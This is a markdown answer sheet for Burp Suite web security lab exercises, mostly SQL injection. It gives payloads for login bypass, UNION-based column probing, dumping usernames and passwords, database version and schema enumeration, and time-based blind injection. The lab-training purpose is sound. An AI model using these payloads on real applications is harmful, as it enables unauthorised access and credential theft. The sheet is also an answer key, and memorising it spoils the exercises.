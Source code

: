 # Burpsuite Lab Answers
## SQL injection 
### 1) SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#### Solution: '+OR+1=1--
![](sql_image/SQL-1.png)

--------------------------------

### 2) SQL injection vulnerability allowing login bypass
#### Solution: administrator'--
![](sql_image/SQL-2.png)

--------------------------------

### 3) SQL injection UNION attack, determining the number of columns returned by the query
#### Solution: 'UNION SELECT NULL, NULL, NULL--
![](sql_image/SQL-3.png)

--------------------------------

### 4) SQL injection UNION attack, finding a column containing text
#### Solution: 'UNION SELECT NULL,'HELLO BUDDY',NULL--
![](sql_image/SQL-4.png)

--------------------------------

### 5) SQL injection UNION attack, retrieving data from other tables
#### Solution: 'UNION SELECT username, password FROM users--
![](sql_image/SQL-5a.png)
![](sql_image/SQL-5b.png)

--------------------------------

### 6) SQL injection UNION attack, retrieving multiple values in a single column
#### Solution: 'UNION SELECT NULL,username||'~'||password FROM users--
![](sql_image/SQL-6.png)

--------------------------------

### 7) SQL injection attack, querying the database type and version on Oracle
#### Solution: 'UNION SELECT BANNER, NULL FROM v$version--
![](sql_image/SQL-7.png)

--------------------------------

### 8) SQL injection attack, querying the database type and version on MySQL and Microsoft
#### Solution: 'UNION SELECT @@version, NULL#
![](sql_image/SQL-8.png)

--------------------------------

### 9) SQL injection attack, listing the database contents on non-Oracle databases
#### Solution: Step-1 : '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
![](sql_image/SQL-9a.png)
#### Solution: Step-2 : '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_qrktla'--
![](sql_image/SQL-9b.png)
#### Solution: Step-3 : '+UNION+SELECT+username_gwlqzm,+password_ikxmsh+FROM+users_qrktla-
![](sql_image/SQL-9c.png)

--------------------------------

### 10) SQL injection attack, listing the database contents on Oracle
#### Solution: Step-1 : '+UNION+SELECT+table_name,NULL+FROM+all_tables--
![](sql_image/SQL-10a.png)
#### Solution: Step-2 : '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_KNHGDL'--
![](sql_image/SQL-10b.png)
#### Solution: Step-3 : '+UNION+SELECT+USERNAME_XEIEJW,+PASSWORD_UHIKUI+FROM+USERS_KNHGDL--
![](sql_image/SQL-10c.png)

--------------------------------

### 13) Blind SQL injection with time delays
#### Solution: TrackingId=x'||pg_sleep(10)--
![](sql_image/SQL-13a.png)
